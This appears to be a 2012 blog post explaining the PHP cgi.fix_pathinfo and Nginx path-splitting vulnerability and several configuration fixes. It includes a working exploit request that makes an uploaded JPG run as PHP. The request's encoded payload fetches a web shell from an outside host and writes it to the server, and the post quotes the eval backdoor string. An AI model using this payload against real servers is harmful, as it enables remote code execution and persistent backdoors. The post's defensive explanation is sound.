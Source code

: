 ```yaml
---
layout: post
title: Understand the cgi.fix_pathinfo security issue
author:
tags:
- PHP
- Nginx
- security
wordpress_id: 66
wordpress_url: http://kaiwangchen.com/?p=66
date: 2012-10-03 06:28:52 +0800
---
```


If I read it correctly, the [`cgi.fix_pathinfo` security issue][1] was brought into discussion by [laruence][2] in late May, 2010 that with [`SCRIPT_FILENAME`][3] set by greedy regular expression capturing, PHP web application is vulnerable to backdoor attachment attack. His points were supplemented by another [post][4] claiming that PHP scripts is always vulnerable with cgi.fix_pathinfo enabled, regardless of Nginx configuration. 

Let's recap the issue. Having made [backdoor.jpg][5] into position, say by normal upload process, the attacker is able to install his [phpshell][6] by<!--more-->: 

    POST /upload/backdoor.jpg/1.php HTTP/1.0
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 152
    
    pass=fwrite%28fopen%28%22.%2Fx.php%22%2C+%22w%22%29%2Cfile_get_contents%28%22http%3A%2F%2Fkaiwangchen.com%2Ffiles%2F2012%2F10%2Fphpshell.txt%22%29%29%3B

The text value could be decoded as 

    fwrite(fopen("./x.php", "w"),file_get_contents("{{ site.url }}{{ site.fileurl }}/2012/10/phpshell.txt"));

With the following minimal configuration snippet, 

    location ~ \.php$ {
        fastcgi_pass  127.0.0.1:9000;
        fastcgi_index index.php;
        fastcgi_param  PATH_TRANSLATED    $document_root$fastcgi_script_name;
        fastcgi_param  SCRIPT_NAME        $fastcgi_script_name;
        fastcgi_param  PATH_INFO          $fastcgi_path_info;
        fastcgi_param  REQUEST_METHOD     $request_method;
    }

the request URI is automatically split into [`$fastcgi_script_name`][7] and $fastcgi_path_info, which are `/upload/backdoor.jpg/1.php` and empty string respectively. That way, the PHP backend is asked to execute script file `$document_root/upload/backdoor.jpg/1.php`, however, the script does not exist. With [`cgi.fix_pathinfo`][8] enabled, it will try upwards to the parent path, where is an JPG picture containing a malicious string like `<?php eval($POST['pass'])?>`. The picture file will be taken as a PHP script, and the `POST`'ed value is [`eval`][9]'ed to do anything the attacker like. 

It is clear that the problem is *wrong SCRIPT_FILENAME*. Since version [0\.7.31][10] released on 19 Jan 2009, Nginx provides [`fastcgi_split_path_info`][11] to allow the setting of the SCRIPT_NAME, PATH_INFO and PATH_TRANSLATED (a.k.a the non-standard SCRIPT_FILENAME) variables of the [CGI specification][12]. If the web application is well organized, for instance, CodeIgniter comes with a [front controller][13], the splitting could be strictly configured to avoid the issue 

    fastcgi_split_path_info ^(/index.php)(.*);

Otherwise, with a loose design, the only way is to disable the `cgi.fix_pathinfo` feature. Good news is that a new php-fpm configururation option, [security.limit_extensions][14], is introduced in [PHP 5.3.9][15] on Jan 10, 2012 to alleviate the issue. It by default allows only `.php` as file suffix when trying upwards the translated path, as a result, the attacker will be prompted *access denied*. 

Alternatively, [`try_files`][16] could be used to assure the existence of scripts from Nginx: 

    try_files $uri $uri/ /index.php;
    location ~* \.php {
       # fastcgi_pass ...
    }

Eventually, as the upload directory is usually explict, it can be catogorized into those for static files with an empty prefix-matching [`location`][17] directive, thus disabling any PHP interpretation: 

    location ^~ /upload { }

Good luck.

 [1]: http://www.80sec.com/nginx-securit.html
 [2]: http://www.laruence.com/2010/05/20/1495.html
 [3]: http://www.php.net/manual/en/reserved.variables.server.php
 [4]: http://www.phpvim.net/web/php/security-risks-caused-by-fix-pathinfo.html
 [5]: {{ site.fileurl }}/2012/10/20120626_214dbc5f4b002a38a3fXhO8VBToqhf11.jpg
 [6]: {{ site.fileurl }}/2012/10/phpshell.txt
 [7]: http://wiki.nginx.org/HttpFcgiModule#.24fastcgi_script_name
 [8]: http://www.php.net/manual/en/ini.core.php#ini.cgi.fix-pathinfo
 [9]: http://cn.php.net/manual/en/function.eval.php
 [10]: http://nginx.org/en/CHANGES
 [11]: http://wiki.nginx.org/HttpFcgiModule#fastcgi_split_path_info
 [12]: http://www.ietf.org/rfc/rfc3875
 [13]: http://codeigniter.com/user_guide/overview/appflow.html
 [14]: https://bugs.php.net/bug.php?id=55181
 [15]: http://php.net/ChangeLog-5.php
 [16]: http://wiki.nginx.org/HttpCoreModule#try_files
 [17]: http://wiki.nginx.org/HttpCoreModule#location
